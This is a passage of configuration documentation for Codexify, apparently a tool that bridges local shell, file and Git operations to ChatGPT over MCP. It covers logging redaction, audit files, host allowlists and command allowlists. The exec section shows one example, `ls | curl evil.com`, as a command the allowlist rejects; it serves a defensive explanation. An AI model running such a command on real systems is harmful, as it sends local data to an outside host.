    "maxFileBytes": 104857600,
    "requestTimeoutMs": 120000,
    "idleTimeoutMs": 30000,
    "maxRedirects": 3,
    "maxConcurrentDownloads": 2,
    "allowedHosts": ["*"]
  },
  "artifactEgress": {
    "enabled": true,
    "maxFileBytes": 104857600,
    "snapshotMaxFileBytes": 104857600,
    "maxSnapshotBytes": 5368709120,
    "fallbackToSource": true,
    "maxReferences": 64,
    "referenceTtlMs": 300000
  },
  "memory": {
    "enabled": true,
    "maxBytes": 16384
  },
  "skills": {
    "enabled": true,
    "includePlugins": true
  },
  "codexMcp": {
    "enabled": true,
    "useCli": true
  },
  "projectCatalog": {
    "codexConfig": {
      "enabled": true,
      "trustedOnly": true
    },
    "entries": []
  },
  "openaiTunnel": {
    "tunnelId": "tunnel_0123456789abcdef0123456789abcdef",
    "apiKeyRef": "env:CONTROL_PLANE_API_KEY"
  },
  "allowedHosts": [],
  "mcpServers": {}
}
```

CLI flags override values from the config file.

`workDir` supplies the project directory or multi-project access root when
`--work-dir` is omitted. It must be absolute. Background-service launches rely
on this field because the native service definition supplies only the absolute
config path.

`conversationAuthToken` has no CLI override. A non-null value must contain exactly
64 lowercase hexadecimal characters. Generate it with a cryptographically secure
random source. `quickstart` does not enable or rotate the
feature; if the selected config already contains a valid value, it preserves the
value and prints the copyable ChatGPT instruction shown above. Because the value
is intentionally stored in this file, keep the config outside the repository; the
default `~/.codexify/codexify.config.json` location does so. When using a custom
repository-local path, add it to the repository's ignore rules. On Unix,
quickstart changes the config mode to `0600` when it preserves a token-bearing
config; manually created configs should be protected equivalently.

`debug` defaults to `false`. When enabled, Codexify adds small component-only
timing metadata to every tool result. The setup, diff, and updater cards render
the server execution time at their end; cards that invoke tools also distinguish
widget-observed round-trip time from server time. It does not enable payload
logging and does not place tool arguments or output in the timing metadata.

## Diagnostics, tool payloads, and audit logging

The default tracing level is `info`. Every completed call names the downstream tool and, for a direct, gateway, or catalog-discovered MCP call, the resolved raw upstream server and tool. `-v` uses `codexify=debug,rmcp=warn`, which adds tool-start events, hashed conversation/project context, argument field names, duration, and output accounting without dumping payloads. `-vv` uses Codexify `trace` while keeping `rmcp` suppressed and adds the fully redacted argument-shape summary. An explicit `RUST_LOG` value takes precedence over these defaults, but rmcp protocol-internal events remain blocked because they may contain unbounded model or user content:

```bash
codexify -v --work-dir /path/to/project
RUST_LOG=codexify=trace,rmcp=warn codexify --work-dir /path/to/project
```

Actual tool requests and responses are a separate opt-in. It applies uniformly to native tools and all MCP exposure modes, rather than special-casing shell execution:

```bash
# Log both sides with the default 2 KiB request / 4 KiB response limits.
codexify --work-dir /path/to/project --log-tool-payloads

# Log requests only with a larger preview and an additional local secret value.
codexify \
  --work-dir /path/to/project \
  --log-tool-payloads=requests \
  --tool-log-max-request-bytes 8192 \
  --tool-log-redact-env PRIVATE_REPOSITORY_TOKEN

# Put the same paired events at debug severity.
codexify --work-dir /path/to/project --log-tool-payloads --tool-log-level debug
```

Every enabled mode emits exactly one start and one completion event with the same server-wide monotonic `call_id`; when audit JSONL is also enabled, it receives that same ID even under concurrent dispatch. The request and response toggles control payload inclusion independently without removing the lifecycle record. Completion includes `status` and `duration_ms`. Payload fields contain compact JSON previews, an observed serialized byte count, whether that count is exact, and explicit truncation and serializer-failure flags. When exact size is available, the event also reports the omitted byte count. Serialization stops as soon as the configured prefix budget is full, then appends `...[truncated]...` at a UTF-8 boundary. It does not clone, traverse, or serialize the unseen remainder merely to measure it.

Short representative events look like this (timestamps and unrelated tracing fields omitted):

```text
INFO codexify::tool_payload: tool invocation started call_id=12 phase="start" tool="read_file" resolved_tool="read_file" status="started" request="{\"path\":\"src/lib.rs\"}"
INFO codexify::tool_payload: tool invocation completed call_id=12 phase="finish" tool="read_file" resolved_tool="read_file" status="ok" duration_ms=2 response="{\"content\":[{\"type\":\"text\",\"text\":\"...\"}],\"isError\":false}"
INFO codexify::tool_payload: tool invocation started call_id=13 phase="start" tool="mcp_call_tool" resolved_tool="mcp:IDA MCP/decompile_function" mcp_server="IDA MCP" mcp_tool="decompile_function" status="started" request="{\"source\":\"ida_mcp\",\"tool\":\"decompile_function\",\"arguments\":{\"address\":\"0x81000000\"}}"
```

MCP arguments and structured results are `serde_json::Value`, so null, arrays, maps, and scalar JSON values retain their compact structure; undefined values, circular references, and other non-JSON runtime objects cannot cross this Rust boundary. An unexpected serialization failure produces a bounded `[unserializable payload]` marker and cannot change the tool result. MCP image content blocks are represented only by MIME type and base64 byte count; their base64 data is never written to these logs. Resource links retain redacted descriptive metadata but replace the URI with an omission marker and its byte count, so opaque download capabilities are not persisted.

MCP dispatchers also emit `resolved_tool`, `mcp_server`, and `mcp_tool`. These contain the raw configured server name and raw upstream tool name even when the downstream capability is a generic gateway or `mcp_call_tool`; model-visible catalog IDs remain available in the request preview. The ordinary info-level completion event carries the same resolved identity even when payload logging is disabled.

Payloads are redacted lazily before their bytes reach the bounded serializer. Codexify removes configured API/conversation credentials, credential-labelled and nontrivial MCP environment/HTTP-header values, resolved MCP bearer/header environment variables, the OpenAI tunnel key when readable, common secret-bearing process environment variables, values named through `toolLogging.redactEnv` / `--tool-log-redact-env`, input fields marked `writeOnly` or `format: "password"` by the tool schema, secret/checksum-labelled JSON fields, signed native-file `download_url` and `file_id` values, signed-URL query parameters, and common command-line/header credential syntax. This is defense in depth, not proof that arbitrary source text or tool output contains no unknown sensitive literal. JSON has no raw byte-buffer type, so image blocks and resource capabilities receive explicit safe representations; an application-specific base64 string in an otherwise ordinary text field is inside the operator trust boundary. Tool payload logging is therefore disabled by default and should be treated as sensitive operational data.

The `toolLogging` config block provides the same controls:

| Key | Default | Description |
|-----|---------|-------------|
| `mode` | `"off"` | `off`, `requests`, `responses`, or `all` |
| `level` | `"info"` | Event severity: `trace`, `debug`, `info`, `warn`, or `error` |
| `maxRequestBytes` | `2048` | Maximum UTF-8 bytes retained from each redacted request; accepted range is `64`-`65536` |
| `maxResponseBytes` | `4096` | Maximum UTF-8 bytes retained from each redacted response; accepted range is `64`-`65536` |
| `redactEnv` | `[]` | Environment-variable names whose current values must be removed from payloads |

CLI mode, level, and byte-limit options replace their corresponding config values. Repeated `--tool-log-redact-env` values are merged with `toolLogging.redactEnv` so a CLI invocation cannot accidentally remove configured redactions. Payload events use the `codexify::tool_payload` tracing target at the selected level, so an explicit restrictive `RUST_LOG` filter can suppress them without incurring payload serialization work; when that happens, the ordinary info-level completion event remains available. Events go through the tracing subscriber (stdout in the HTTP server); they are never written to a bridged upstream's protocol pipe or to the downstream Streamable HTTP response. `--log-tool-calls` is equivalent to `-v`; it does not enable payload logging.

Audit logging is separate from diagnostic tracing and is disabled unless a file is configured:

```bash
codexify \
  --work-dir /path/to/project \
  --audit ~/.codexify/audit/tools.jsonl
```

The append-only JSONL stream begins with `audit_started`, which identifies the server version, OS process, random run ID, and command-preview policy, then emits schema-version-2 `tool_start` and `tool_finish` records. Tool records carry an RFC 3339 timestamp, monotonic call ID, transport-session ID, hashed ChatGPT conversation and project identifiers, downstream and resolved tool identities (including raw MCP server/tool names), duration, status, argument shape, returned byte/token counts, truncation status when the tool can report it, and resident `exec_command` session/PID metadata. Argument summaries include only fields declared by the tool's input schema; unknown keys and dynamic maps are counted but their key names are omitted. Raw conversation identifiers, project paths, scalar argument values, image data, structured output, and returned text are not written.

Command previews are a separate opt-in because shell commands can contain credentials, source code, paths, and environment values:

```bash
codexify \
  --work-dir /path/to/project \
  --audit ~/.codexify/audit/tools.jsonl \
  --audit-command-preview \
  --audit-redact-env GITHUB_TOKEN
```

Before a preview is written, Codexify replaces the local MCP bearer, the configured conversation-authentication token, configured MCP-server environment values, the referenced OpenAI tunnel key when readable, values named by `audit.redactEnv` / `--audit-redact-env`, common secret-bearing process environment variables, and common `--token`, `API_KEY=…`, and `Bearer …` forms. The preview is then capped at `commandPreviewMaxBytes`. This is defense in depth, not a proof that an arbitrary command contains no sensitive literal; leave previews disabled when command text itself is sensitive.

The `audit` config block has the same controls:

| Key | Default | Description |
|-----|---------|-------------|
| `logFile` | `null` | JSONL destination; a relative path resolves from the launch directory. Setting it enables auditing |
| `includeCommandPreview` | `false` | Include bounded, redacted `exec_command` previews |
| `commandPreviewMaxBytes` | `512` | Maximum UTF-8 byte length of a command preview; accepted range is `1`-`16384` |
| `redactEnv` | `[]` | Environment-variable names whose current values must be removed from previews |

`--audit` replaces `audit.logFile`; `--audit-command-preview` only enables previews; and repeated `--audit-redact-env` values are merged with `audit.redactEnv` so a CLI invocation cannot accidentally remove configured redactions.

Startup fails if an enabled audit file cannot be opened safely. On Unix, newly created files use mode `0600`, symbolic-link targets are rejected, and an existing file with group/other permission bits is rejected. A later append or flush error is emitted as an error-level diagnostic without changing the result of a tool that may already have had side effects.

This is an operational activity log, not a tamper-evident security boundary. Model-launched commands run as the same OS user and can modify any audit file they can locate and access. Keep the file outside the project access root, restrict its directory permissions, and forward it to a separately protected collector when independent evidence is required.

The `openaiTunnel` block enables OpenAI's native outbound tunnel:

| Key | Default | Description |
|-----|---------|-------------|
| `tunnelId` | required | Existing `tunnel_…` identifier from OpenAI Platform |
| `apiKeyRef` | `"env:CONTROL_PLANE_API_KEY"` | Runtime API-key reference. Only `env:NAME` and `file:/path` are accepted; literal keys are rejected |
| `clientPath` | verified managed runtime | Explicit official `tunnel-client` or `tunnel-client-runtime` binary. Relative paths resolve from the launch directory |
| `organizationId` | - | Optional organization ID passed as `OpenAI-Organization` by the official client |

The `quickstart` command writes its runtime key to
`~/.codexify/openai-tunnel/credentials/<tunnel-id>.key` and sets `apiKeyRef` to
that absolute `file:` path. It never writes the key itself into
`codexify.config.json`; on Unix, the credential directory is mode `0700` and the key
file is mode `0600`.

Native mode deliberately cannot be combined with a caller-supplied `apiKey` / `--api-key`: Codexify generates a high-entropy bearer token for the loopback MCP hop and injects it into the tunnel runtime through static MCP and discovery headers. Host validation is forced to loopback authorities and permissive browser CORS is disabled.

The OpenAI runtime key authenticates the outbound control-plane connection. Codexify resolves the configured `env:NAME` or `file:/path` reference once, passes the value to the tunnel child under a private synthetic environment name, and removes the original environment variable from model-launched commands and bridged MCP children. The tunnel runtime starts with a small allowlist of ordinary OS variables rather than inheriting tunnel-client configuration, proxy, header, or trust-store overrides from the launching shell. On Unix, a referenced key file must not be readable by group or other users. These measures prevent accidental inheritance; they do not create a secret boundary against hostile code running as the same OS user, which can potentially inspect same-user processes or read an accessible key file.

The top-level `multiProject` key is the config-file equivalent of `--multi-project`. In that mode the process reads one static `codexify.config.json`; project selection changes the effective work directory used by project-scoped tools, not the server configuration itself. The native Codex project table is the exception to the startup snapshot: `list_projects` rereads it on every call so newly trusted projects become discoverable without restarting Codexify. ChatGPT conversation bindings are independent of the `memory` block and are enabled even when `memory.enabled` is `false`.

`projectCloneDir` selects where `set_project_root` places a repository requested by Git URL but lacking a matching local checkout. It defaults to the multi-project access root (`--work-dir`); a relative value is resolved against that access root, while `--project-clone-dir` overrides the file setting. The directory must already exist, must be a directory, and must canonicalize to the access root or one of its descendants. The destination follows normal `git clone` naming (`<projectCloneDir>/<repository-name>`); an unrelated file or checkout at that path is never overwritten. Provider-agnostic repository URLs clone their default checkout. GitHub branch URLs clone the named branch when a repository must be created, while PR and commit URLs clone the repository and then detach at the fetched target commit.

The `worktrees` block controls isolation between conversations selecting the same Git project:

| Key | Default | Description |
|-----|---------|-------------|
| `mode` | `"auto"` | `"auto"` lets the first conversation use the selected checkout and gives later conversations managed worktrees; `"always"` isolates every conversation; `"never"` uses the selected checkout directly |
| `root` | Codex worktree location | Parent directory for managed worktrees; overridden by `--worktree-root` |
| `upstreamRefreshMode` | Codex setting or `"never"` | `"best-effort"` refreshes a tracked upstream before worktree creation without making fetch failure fatal |
| `autoCleanupEnabled` | Codex setting or `true` | On startup, remove old unreferenced worktrees only when their working trees are clean |
| `keepCount` | Codex setting or `15` | Number of newest unreferenced managed worktrees retained before cleanup candidates are considered |
| `allowSetupScript` | `false` | Whether a worktree's Codex environment setup script may run on creation. This executes an arbitrary command **outside** the `exec` policy, and both the environment file and its script path are selectable through the source repository's local Git config, so an untrusted project could otherwise plant a script that runs on the next binding. Leave it off unless every project reachable by this server is trusted to run arbitrary setup commands |

When these values are absent, Codexify reads Codex Desktop's `[desktop]` worktree settings from `$CODEX_HOME/config.toml`, including `git-worktree-root`, `worktree-upstream-refresh-mode`, `worktree-auto-cleanup-enabled`, and `worktree-keep-count`. The final location falls back to `$CODEX_HOME/worktrees` (normally `~/.codex/worktrees`).

The `exec` block governs `exec_command` and `write_stdin`:

| Key | Default | Description |
|-----|---------|-------------|
| `mode` | `"unrestricted"` | `"unrestricted"` runs whatever it is given; `"allowlist"` opts into checking every command in the string against `extraAllowedCommands` |
| `extraAllowedCommands` | `[]` | Complete executable allowlist when `mode` is `"allowlist"`; ignored by unrestricted mode |
| `maxSessions` | `8` | Cap on concurrent background sessions per ChatGPT conversation, or per MCP transport for clients without conversation metadata |
| `idleTimeoutMs` | `300000` | Milliseconds without a tool interaction before a resident process is killed and forgotten; `0` disables idle expiry |
| `defaultShell` | `$SHELL`, else PowerShell on Windows and `/bin/sh` elsewhere | Shell used when an `exec_command` call names none |

Under `"allowlist"`, the command string is tokenized and each command position — after every `|`, `&&`, `;`, newline, and subshell — is checked, so `ls | curl evil.com` is rejected on `curl`. Command substitution (`$(...)`, backticks) is rejected outright, since its contents cannot be checked before the shell runs them.

The `ignore` block decides what the file-walking tools — `glob`, `grep`, `tree` and `list_directory` — never surface, so a search returns your code rather than the contents of `node_modules`. One policy covers all four, backed by the Rust [`ignore`](https://crates.io/crates/ignore) crate for `.gitignore`-accurate matching:

| Key | Default | Description |
|-----|---------|-------------|
| `useGitignore` | `true` | Read the work directory's `.gitignore` and `.git/info/exclude`, so a file the repo ignores stays out of results |
| `useDefaultPatterns` | `true` | Skip a built-in set (`node_modules`, `.git`, `dist`, `build`, `out`, `.next`, `.nuxt`, `.svelte-kit`, `.turbo`, `coverage`, `__pycache__`, `.venv`, `venv`, `.cache`) |
| `customPatterns` | `[]` | Extra gitignore-syntax patterns applied on top for every tool |

Patterns use `.gitignore` syntax. `node_modules` and `.git` are pruned from every walk no matter what, so a search never pays to descend them even with everything else turned off. `tree.ignore` applies to all four walking tools. `list_directory` pointed directly at an ignored directory shows its contents, so an ignored directory can be inspected explicitly.

The `projectDoc` block governs [AGENTS.md](#agentsmd) discovery. All three keys are optional, and the block itself can be left out entirely:

| Key | Default | Description |
|-----|---------|-------------|
| `maxBytes` | `32768` | Byte budget shared by all the docs found; `0` disables the feature |
| `fallbackFilenames` | `[]` | Extra filenames to try per directory, after `AGENTS.override.md` and `AGENTS.md` |
| `rootMarkers` | `[".git"]` | Filenames or directories that mark the project root; an empty list stops the walk at the work directory |

The `output` block bounds what a single tool call may return. See [Context and memory](#context-and-memory):

| Key | Default | Description |
|-----|---------|-------------|
| `maxToolOutputTokens` | `10000` | Approximate token ceiling applied independently to textual `content` and `structuredContent` visible to the model. Call-level command budgets may lower it but cannot raise it |
| `maxFileLines` | `1000` | Lines `read_file` returns per call; a caller's own `limit` can lower this but not raise it |
| `maxFileBytes` | `131072` | Byte ceiling for the same window, which is what actually bounds a minified file |
| `maxEntries` | `500` | Results per `glob`, `grep`, or `list_directory` call |
| `maxTreeNodes` | `1000` | Nodes in one `tree` walk, counted across the whole tree rather than per directory |

The `diff` block bounds presentation without changing checkpoint semantics. The former `review` key remains accepted as a compatibility alias:

| Key | Default | Description |
|-----|---------|-------------|
| `maxPatchBytes` | `4194304` | Largest complete binary-capable patch attached to the diff widget's component-only result metadata. The 4 MiB default is regression-tested with 10,000 changed code lines of roughly 300 bytes each; unusually long lines and large binary patches can still exceed it. A larger patch is omitted rather than cut mid-hunk, while file metadata and aggregate statistics remain available. `0` disables patch bodies |

The `artifactIngress` block governs [native host-file ingress](#native-host-file-ingress):

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | Expose `import_host_file`; `false` removes the tool from `tools/list` |
| `maxFileBytes` | `104857600` | Maximum downloaded bytes per file (100 MiB, approximately 104.9 MB), enforced from both declared and streamed size |
| `requestTimeoutMs` | `120000` | Whole import deadline, including network transfer and publication |
| `idleTimeoutMs` | `30000` | Maximum wait between response-body chunks; must not exceed `requestTimeoutMs` |
| `maxRedirects` | `3` | Maximum manually validated redirects, between `0` and `10` |
| `maxConcurrentDownloads` | `2` | Process-wide concurrent import cap, between `1` and `16` |
| `allowedHosts` | `["*"]` | Host patterns a download URL and every redirect hop must match. `"*"` accepts any public HTTPS host while rejecting internal/reserved addresses (loopback, private, link-local, unique-local, CGNAT, `localhost`, cloud metadata). A bare host (`files.example.com`) matches exactly; a leading dot (`.example.com`) matches that host and its subdomains; an explicitly named host is trusted as given, including an internal one |

The `artifactEgress` block governs [native host-file egress](#native-host-file-egress) and the opaque capabilities used to proxy resource links returned by bridged MCP servers:

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | Expose `export_host_file` and allow bridged upstream `resource_link` results to be proxied; `false` removes the native export tool and leaves bridged resource links unavailable |
| `maxFileBytes` | `104857600` | Hard maximum bytes read or returned for one native exported resource or one proxied upstream resource (100 MiB, approximately 104.9 MB). Native export and fallback reads enforce it before and during streaming; bridged links reject an oversized advertised size and re-check actual returned content |
| `snapshotMaxFileBytes` | `104857600` | Maximum native source size eligible for an immutable disk snapshot (100 MiB, approximately 104.9 MB). A file above this threshold can still use durable source-backed mode when it remains within `maxFileBytes` |
| `maxSnapshotBytes` | `5368709120` | Global per-user byte budget for immutable native snapshots under `~/.codexify/artifacts/snapshots` (5 GiB, approximately 5.37 GB). Least-recently-used snapshots are evicted before new ones are published; their durable records remain |
| `fallbackToSource` | `true` | When a native immutable snapshot was not stored or has been evicted, resolve the old capability from the latest safe version at its recorded project-relative path. `false` makes such resources unavailable instead |
| `maxReferences` | `64` | Maximum live opaque references for **bridged upstream** resources, between `1` and `1024`; native exported-file records are durable and are not subject to this count |
| `referenceTtlMs` | `300000` | Lifetime of **bridged upstream** resource capabilities after the producing tool call (5 minutes). Native exported-file capabilities do not use this TTL |

The former `maxCachedBytes` key is accepted and ignored for configuration-file compatibility. Replace it with `maxSnapshotBytes`; it no longer limits an in-memory native payload cache because that cache no longer exists.

The `memory` block governs `remember`, `recall` and the plan `update_plan` saves:

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | `false` turns persistence off entirely; nothing is read or written |
| `dir` | `~/.codexify/projects/<name>-<hash of work-dir>` | Where the state file lives. Outside the repository by default. In multi-project mode, an explicit `dir` is treated as a base directory and each selected project gets its own hashed child directory |
| `maxBytes` | `16384` | Budget for all notes together. A note over it is rejected, not silently evicted |

The `skills` block governs `SKILL.md` discovery. See [Skills](#skills):

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | `false` searches nothing; both tools say so and the catalogue leaves `instructions` |
| `dirs` | `~/.agents/skills`, `~/.codex/skills`, `~/.claude/skills` | User-scope directories, **replacing** the home-directory defaults. Relative paths resolve against the work directory; project-scope roots are unaffected |
| `includePlugins` | `true` | Discover enabled installed OpenAI Codex and Claude Code plugin skills. Setting `dirs` disables this unless you set it back to `true` |

The `codexMcp` block controls [automatic import of MCP servers configured in Codex](#bridging-other-mcp-servers):

| Key | Default | Description |
|-----|---------|-------------|
| `enabled` | `true` | Import Codex MCP servers (direct `config.toml` parsing plus CLI discovery); `false` disables only MCP-server import — project catalogue discovery is unaffected — unless the explicit `--codex-cli` requirement overrides it |
| `useCli` | `true` | Enrich direct config parsing with `codex mcp list/get --json`, which includes MCP servers contributed by enabled Codex plugins. `false` keeps direct `config.toml` parsing but does not invoke Codex |
| `cliPath` | `CODEX_CLI_PATH`, then `codex` on `PATH` | Codex executable used for CLI enrichment. Relative paths resolve from the directory where Codexify was launched |

The `projectCatalog` block controls project discovery in [multi-project mode](#multi-project-mode). It is independent from `codexMcp`: disabling imported MCP servers does not disable native project discovery, and vice versa.

| Key | Default | Description |
|-----|---------|-------------|
| `codexConfig.enabled` | `true` | Read the top-level native Codex `[projects]` table as one candidate provider |
| `codexConfig.trustedOnly` | `true` | Include only native entries whose `trust_level` is `"trusted"`; this is a discovery filter, not the Codexify authorization boundary |
| `entries` | `[]` | Optional explicit paths and semantic metadata. An entry may augment an imported path or add a path absent from native Codex, but it cannot escape `--work-dir` |

Each `entries` element supports:

| Key | Required | Description |
|-----|----------|-------------|
| `path` | Yes | Absolute path or a path relative to the access root |
| `name` | No | Display name; defaults to the canonical directory basename |
| `aliases` | No | Additional case-insensitive intent-matching names |
| `description` | No | Short explanation of the project's purpose, searched by `list_projects` |

For example:

```json
{
  "multiProject": true,
  "projectCatalog": {
    "codexConfig": {
      "enabled": true,
      "trustedOnly": true
    },
    "entries": [
      {
        "path": "codexify",
        "name": "Codexify",
        "aliases": ["ChatGPT MCP bridge"],
        "description": "Rust MCP bridge exposing local programming tools to ChatGPT"
      }
    ]
  }
}
```

Metadata overlays are merged by canonical path. Explicit entries are operator-authored providers in their own right, so they may include a path that native Codex marks untrusted or does not record; they cannot widen the access-root boundary. Aliases are deduplicated case-insensitively, and aliases shared by different projects produce a warning because they make intent matching ambiguous. Catalogue construction never opens a candidate's README, source, `.codex/`, or `AGENTS.md`; project contents remain unread until the conversation has selected that project.

Git URL selection is separate from catalogue listing. Before cloning, Codexify checks the normal destination, catalogue candidates, and immediate child directories of `projectCloneDir`, then compares normalized remotes at each Git top level. Exactly one match is reused; multiple matches are rejected as ambiguous so the caller can pass an explicit path. Provider-agnostic repository selection accepts HTTPS URLs such as `https://gitlab.com/group/repository.git`, SSH URLs such as `ssh://git@gitlab.com/group/repository.git`, and SCP-style SSH URLs such as `git@gitlab.com:group/repository.git`. Non-GitHub selections must end in `.git`, which avoids treating arbitrary provider web pages as repositories; an already-cloned matching remote may omit that suffix. GitHub additionally accepts repository-root URLs without `.git` plus HTTPS branch (`/tree/<branch>`), pull-request (`/pull/<number>`), and commit (`/commit/<sha>`) URLs. For branch URLs, everything after `/tree/` is interpreted as the branch ref, including `/` characters. Commit URLs require the full 40-character hexadecimal object ID and normalize it to lowercase. Credential-bearing HTTPS URLs, query strings, fragments, `file://`, HTTP, `git://`, and other transports are rejected.

The `openaiTunnel` block, `allowedHosts` array, and `mcpServers` map are covered under [Native OpenAI tunnel](#native-openai-tunnel-recommended), [Host allowlist](#host-allowlist), and [Bridging other MCP servers](#bridging-other-mcp-servers).

## Native host-file ingress

ChatGPT attachments and generated files live in host-managed storage, not automatically on the machine running Codexify. `import_host_file` closes that gap:

```text
user attaches or ChatGPT generates a file
        ↓
the agent calls import_host_file(file, path)
        ↓
ChatGPT supplies a temporary authorized native-file value
        ↓
Codexify streams the exact bytes into the active project
```

The file argument follows ChatGPT's native file-parameter contract and is marked through `_meta["openai/fileParams"]`; the model does not pass an arbitrary URL. `path` is a required new file path relative to the active project or managed worktree. The destination is invisible until the complete download has passed its size and integrity checks, and an existing file or symlink is never replaced.

Source and destination authority are deliberately narrow:

- only HTTPS URLs are accepted, constrained by the configurable `artifactIngress.allowedHosts` allowlist and revalidated on every redirect hop; the default `"*"` wildcard admits any public host but always rejects internal and reserved targets (loopback, private, link-local, unique-local, CGNAT, `localhost`, the cloud metadata address), so an injected URL cannot reach internal services;
- proxy environment variables, caller-supplied headers, cookies and ambient credentials are not used;
- the temporary signed URL and file ID are never returned or persisted, and RMCP framework events are excluded from the tracing layer so `RUST_LOG` cannot expose native-file arguments before tool dispatch;
- destination traversal and symlink escapes are confined through a capability-based directory handle rather than a lexical path check alone;
- bytes are written to a private same-directory partial, hashed with SHA-256, synchronized, and atomically published through a no-overwrite hard link;
- archive extraction, execution, arbitrary URL fetching and arbitrary local-source paths are outside this tool's contract.

After publication, the result is an ordinary project file. Git, `glob`, `tree`, diff tools and normal deletion provide its catalogue and lifecycle; Codexify does not maintain a second artifact database or TTL.

## Native host-file egress

Machine-local paths are not downloadable by ChatGPT, and returning a large binary file as base64 text would put the encoded payload into the tool result and model context. `export_host_file` instead uses MCP's resource flow:

```text
the agent creates or selects a project file
        ↓
the agent calls export_host_file(path)
        ↓
Codexify safely opens and hashes the file, then retains an immutable disk snapshot when eligible
        ↓
the tool returns a standard MCP resource_link with an opaque codexify://artifact/... URI
        ↓
the connector host resolves that durable URI through resources/read and receives a base64 blob resource
```

The returned resource describes the original filename, MIME type and byte count. The structured receipt includes the project-relative source path, original SHA-256 digest, whether an immutable snapshot was stored, and whether source fallback is enabled. It deliberately does not duplicate the bearer-capability URI into ordinary structured data, never exposes an absolute filesystem path, and never asks the model to copy the file contents through text.

Native exported-file capabilities and their metadata survive MCP transport replacement and Codexify restarts. Each record is stored privately under `~/.codexify/artifacts/records`; eligible files also receive an immutable snapshot under `~/.codexify/artifacts/snapshots`. The default snapshot eligibility threshold is 100 MiB and the global per-user snapshot budget is 5 GiB. Snapshot insertion and least-recently-used eviction are serialized across Codexify processes, so separate projects and service instances share one bounded pool rather than each reserving 5 GiB.

While the immutable snapshot remains available, the capability always serves the exact original exported bytes even if the project file is later replaced, truncated, deleted or retargeted. Reading a retained snapshot refreshes its LRU position. Eviction removes only the snapshot, not the durable capability record. With the default `fallbackToSource: true`, a snapshot-less capability then serves the latest safe version at the recorded project-relative path. The fallback recreates the original capability boundary, revalidates the recorded project-root identity where the platform supports it, refuses traversal and symlink/reparse-point escapes, requires a regular file, and reapplies `maxFileBytes`. If both the immutable snapshot and a permitted source fallback are unavailable, `resources/read` returns `resource_not_found`.

Each URI contains a random 256-bit bearer capability. Issued native resources are never added to `resources/list` and have no short default TTL; the small durable records remain so old ChatGPT conversation attachments can resolve after a restart or snapshot eviction. Snapshot payloads live on disk rather than in an application-managed RAM cache, while repeated reads still benefit from the operating system page cache. `maxReferences` and `referenceTtlMs` continue to bound only opaque capabilities returned by bridged upstream MCP servers, because those references depend on a live upstream peer and cannot survive process replacement safely.

## Multi-project mode

By default the server is pinned to one project: `--work-dir` *is* the project root, and every project-scoped tool resolves against it. Multi-project mode turns `--work-dir` into an *access root* instead — a directory beneath which each conversation selects its own project — so a single running server can serve many repositories without a process per repo.

Enable it with `--multi-project` or `"multiProject": true` (see [CLI flags](#cli-flags) and [Config file](#config-file)). One static `codexify.config.json` is read at startup; selection changes only the effective work directory the project tools use, never the server configuration itself.

Each conversation binds a project exactly once, through the [`set_project_root`](#tools) tool. When neither an exact path nor an exact supported Git repository URL is known, [`list_projects`](#tools) provides a project-independent enumeration step first:

- The path is relative to the access root or absolute, but its canonical target must be an existing directory inside that root. Traversal (`..`) and symlink escapes are rejected *after* canonicalisation, so a link pointing outside the root cannot smuggle a selection past the check.
- A Git repository URL is normalized into a conservative remote identity. Non-GitHub selections accept HTTPS/SSH URLs ending in `.git`; conventional hosting-service SSH remotes such as `git@host:group/repository.git` match their HTTPS equivalent, while arbitrary SSH users and custom-port endpoints remain distinct. GitHub repository roots retain their existing shorthand forms and may also carry an exact branch, PR, or commit target. Codexify first reuses an unambiguous matching local Git top level. Otherwise it serializes concurrent requests for that repository, runs non-interactive `git clone` into a private temporary directory below `projectCloneDir`, verifies the resulting remote, and publishes it at `<projectCloneDir>/<repository-name>`. Name collisions fail rather than overwrite data.
- Branch URLs fetch `refs/heads/<branch>`; PR URLs fetch GitHub's `refs/pull/<number>/head`; commit URLs fetch the exact full object ID. A fresh branch clone checks out the named branch, while fresh PR and commit clones detach at the selected commit. For an existing checkout, target fetching does not switch, reset, or otherwise move its `HEAD`.
- The binding belongs to the **ChatGPT conversation**, keyed from `_meta["openai/session"]` (the raw identifier is hashed, never stored), so simultaneous chats can hold different projects and a later turn recovers its own root after MCP reconnects or a server restart. A client that sends no ChatGPT conversation metadata falls back to a binding that lasts only the current MCP transport session.
- With the default worktree mode, the first conversation selecting a Git project uses the source checkout directly. Once that logical project is already assigned, another conversation receives a detached managed worktree under the configured Codex worktree location, preventing concurrent chats from editing the same checkout. A branch, PR, or commit URL also receives a detached worktree when the existing source checkout is on another commit. `always` isolates every selection; `never` uses the source directly and therefore rejects a targeted URL unless that source is already at the requested commit.
- Worktree identity uses the repository's Git common directory plus the selected path relative to its Git root. Linked worktrees are therefore recognised as the same repository, while separate subprojects in a monorepo remain distinct.
- A conversation cannot switch roots once bound — start another chat for a different project. Re-selecting the same canonical path or exact normalized repository selection is idempotent. A different repository, branch, PR, or commit URL is rejected before any clone or fetch begins.
- Until a root is selected, project-scoped tools are unavailable and say why. `list_projects` and `set_project_root` are the two project-independent tools present for this workflow.

### Project catalogue semantics

Native Codex records trust decisions in its user-level configuration:

```toml
[projects."/absolute/path/to/project"]
trust_level = "trusted"
```

Codexify reads those paths as candidates. It does not treat the table as exhaustive: entries may be stale, may represent separate worktrees, and contain no semantic description beyond the path. Explicit `projectCatalog.entries` can therefore add aliases/descriptions or supply projects absent from the native table.

Every candidate passes Codexify's own checks. Its path must exist, resolve to a directory, and canonicalize to the access root itself or a descendant; missing entries, files, and symlink escapes are skipped, while duplicate canonical targets are merged into one candidate. Native Codex trust is only catalogue metadata plus the default `trustedOnly` filter. It never grants Codexify access to a path outside `--work-dir`, and an explicit catalogue entry does not widen that boundary either.

`list_projects` returns a selector relative to the access root, which can be passed unchanged as `set_project_root.path`. Its optional query matches names, aliases, descriptions, and selectors case-insensitively with deterministic exact/prefix/substring ranking. The tool never binds automatically. If several results remain plausible, the agent instructions require asking the user rather than guessing, because a wrong binding cannot be changed in that conversation.

The native table is read live for every `list_projects` call. The file is read-only, the `codex` executable is not required, and project-local `.codex/config.toml` layers are not scanned because they are meaningful only after a project has been selected.

